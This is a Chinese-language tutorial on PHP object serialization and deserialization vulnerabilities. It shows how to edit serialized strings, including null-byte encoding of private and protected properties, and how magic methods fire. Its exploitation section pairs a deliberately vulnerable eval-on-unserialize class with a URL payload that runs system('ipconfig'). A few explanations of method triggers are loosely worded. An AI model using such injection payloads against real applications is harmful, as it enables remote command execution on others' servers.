



---

## 1.0 PHP 反序列化

### 1.1 基础

**序列化**是将内存中的对象转换为字节序列或字符串的过程, 以便于存储, 传输或在网络传递.

**反序列化**则是将字节序列或字符串还原为原始对象.

**漏洞原理:** 反序列化漏洞的本质: 攻击者可控的恶意数据被程序信任并还原为对象, 而程序未对输入进行严格验证.

#### 01 序列化实例:

```php
// 基本类型序列化
echo serialize(null);       // N;
echo serialize(10);         // i:10;
echo serialize(10.1);       // d:10.1;
echo serialize("你好");      // s:6:"你好";
echo serialize("hello");    // s:5:"hello";
echo serialize(false);      // b:0;
echo serialize(true);       // b:1;
// ----------------------------------------------------------
// 数组
$a = array("Google", "Baidu", "Amazon");
echo serialize($a);
// a:3:{i:0;s:6:"Google";i:1;s:5:"Baidu";i:2;s:6:"Amazon";}
// a == array, 3 == elementx3, i == 编号, s:6 == string:length
// -----------------------------------------------------------
// 对象
class demo{
    public $name;
}
echo serialize(new demo());
// O:4:"demo":1:{s:4:"name";N;}
// O == object, 4 == [demo]length, 1 == [类的成员变量数], s:4:"name" == string:length:"value"
```

#### 02 反序列化实例:

```php
// 对象
var_dump(unserialize('O:4:"demo":1:{s:4:"name";N;}'));
// object(__PHP_Incomplete_Class)#1 (2) { ["__PHP_Incomplete_Class_Name"]=> string(4) "demo" ["name"]=> NULL }
```

---

#### 03 进阶案例

- 反序列化特性:
  - 反序列化生成的对象, 成员属性值由被反序列化的字符串决定, 与原来类预定义的值无关
  - 反序列化使用`unserialize()` 将字符串转换为对象, 序列化使用`serialize()` 将对象转化为字符串
  - 反序列化不触发类的成员方法, 需要调用方法后才能触发

**案例1: 修改变量值 [Taobao] → [Baidu]**

```php
class main{
    var $name = "Taobao";
    function var(){
        echo $this -> name;
    }
}
// 1. 将对象序列化
$ser = serialize(new main());
echo $ser // O:4:"main":1:{s:4:"name";s:6:"Taobao";}
// 2. 思路, 修改序列化之后的字符串对应内容
// O:4:"main":1:{s:4:"name";s:5:"Baidu";}
// 3. 反序列化调用方法
$unser = unserialize('O:4:"main":1:{s:4:"name";s:5:"Baidu";}');
$unser -> var();
```



---

**案例2: 访问控制**

PHP 对象序列化后的字符串

```php
O:类名长度:"类名":属性数量:{属性1类型:属性1长度:"属性名";值类型:值长度:"值";...}
```

> 每个属性定义为: 数据类型:长度:值

```php
class main{
    public $name = "byron";
    protected $sex = "男";
    private $age = "18";
}
echo serialize(new main());
// 序列化后的值为:
// O:4:"main":3:{s:4:"name";s:5:"byron";s:6:"*sex";s:3:"男";s:9:"mainage";s:2:"18";}
```

源码分析: 对于`public` `protected` `private`:

- public
  - 格式: `s:属性长度:"属性名";值类型:值长度:"值";`
  - 无前缀和空字节
- protected
  - 格式:`s:属性长度:"\0*\0属性名";值类型:值长度:"值";`
  - 属性名前加`\0*\0` `[空字节][*]`
    - 第一个`\0`表示protected
    - `*`是字面量星号
    - 第二个`\0`分隔符
- private
  - 格式: `s:属性长度:"\0类名\0属性名";值类型:值长度:"值";`
  - 属性名前加 `\0类名\0` 即: [空字节] + [所属类名] + [空字节]

> 注意: 在 URL/HTTP 请求中传递时, 需将空字节写为 `%00`

如何将`byron` 改为 `by` ?

```php
<?php
class main{
    public $name = "byron";
    protected $sex = "男";
    private $age = "18";
    function displayVar(){
        echo $this -> name;
    }
}
```

01 序列化对象

```php
$obj = new main();
echo serialize($obj);
// O:4:"main":3:{s:4:"name";s:5:"byron";s:6:"*sex";s:3:"男";s:9:"mainage";s:2:"18";}
```

02 将序列URL编码并修改

```php
echo urlencode('O:4:"main":3:{s:4:"name";s:5:"byron";s:6:"*sex";s:3:"男";s:9:"mainage";s:2:"18";}');
// 原值
// O%3A4%3A%22main%22%3A3%3A%7Bs%3A4%3A%22name%22%3Bs%3A5%3A%22byron%22%3Bs%3A6%3A%22%2Asex%22%3Bs%3A3%3A%22%E7%94%B7%22%3Bs%3A9%3A%22mainage%22%3Bs%3A2%3A%2218%22%3B%7D
// 修改值
// O%3A4%3A%22main%22%3A3%3A%7Bs%3A4%3A%22name%22%3Bs%3A2%3A%22by%22%3Bs%3A6%3A%22%00%2A%00sex%22%3Bs%3A3%3A%22%E7%94%B7%22%3Bs%3A9%3A%22%00main%00age%22%3Bs%3A2%3A%2218%22%3B%7D
```

- 手动修改`byron`→`by` 注意: 值长度同步修改
- `*`前后分别增加`%00` (protected 特性)
- `main`前后分别增加`%00` (private 特性)

03 反序列化

```php
$unser = unserialize(urldecode("O%3A4%3A%22main%22%3A3%3A%7Bs%3A4%3A%22name%22%3Bs%3A2%3A%22by%22%3Bs%3A6%3A%22%00%2A%00sex%22%3Bs%3A3%3A%22%E7%94%B7%22%3Bs%3A9%3A%22%00main%00age%22%3Bs%3A2%3A%2218%22%3B%7D"));
$unser -> displayVar();
```



> 成功修改

---

### 1.2 反序列化漏洞利用

 ```php
 class demo{
     public $a = 'This is string';
     public function displayVar(){
         eval($this->a);
     }
 }
 $get = $_GET["x"];
 $eval = unserialize($get);
 $eval -> displayVar();
 ```

01 序列化对象

```php
echo serialize(new demo());
// O:4:"demo":1:{s:1:"a";s:14:"This is string";}
```

02 代码执行

```php
// 1. 构造payload
O:4:"demo":1:{s:1:"a";s:19:"system("ipconfig");";} // 注意同步修改[值长度]
// 2. 命令执行
?x=O:4:"demo":1:{s:1:"a";s:19:"system("ipconfig");";}
```



> 如图成功执行命令获取IP

---

### 1.3 魔术方法

| 函数          | 作用                              |
| ------------- | --------------------------------- |
| __construct() | 类的构造函数, 创建对象时触发      |
| __destruct()  | 类的析构函数, 对象被销毁时触发    |
| __sleep()     | 执行serialize()时, 先调用该方法   |
| __wakeup()    | 执行unserialize()时, 先调用该方法 |

Case 1: 

```php
class demo{
    public function __construct(){
        echo "Create!";
    }
}
$obj = new demo(); // 对象实例化(创建)时自动触发 __construct() 方法
// Create!
// -------------------------------------------------------------
class demo{
    public function __construct(){
        echo "Create!"."<br/>";
    }
}
echo serialize(new demo());
// Create!
// O:4:"demo":0:{}
// 序列化时, __construct() 方法依旧自动触发
```

Case 2:

```php
class demo{
    public function __construct(){
        echo "Create!"."<br/>";
    }
    public function __destruct(){
        echo "Remove!";
    }
    public function testCase(){
        echo "Test"."<br/>";
    }
}
$obj = new demo();
$obj -> testCase();
// 输出结果为:
// Create!
// Test
// Remove!
// 当对象($obj)不再被调用时, 触发 __destruct() 方法
// -------------------------------------------------------------
class demo{
    public function __construct(){
        echo "Create!"."<br/>";
    }
    public function __destruct(){
        echo "Remove!";
    }
}
var_dump(unserialize('O:4:"demo":0:{}'));
// object(demo)#1 (0) { } Remove!
// 反序列化时, __destruct() 方法触发
```
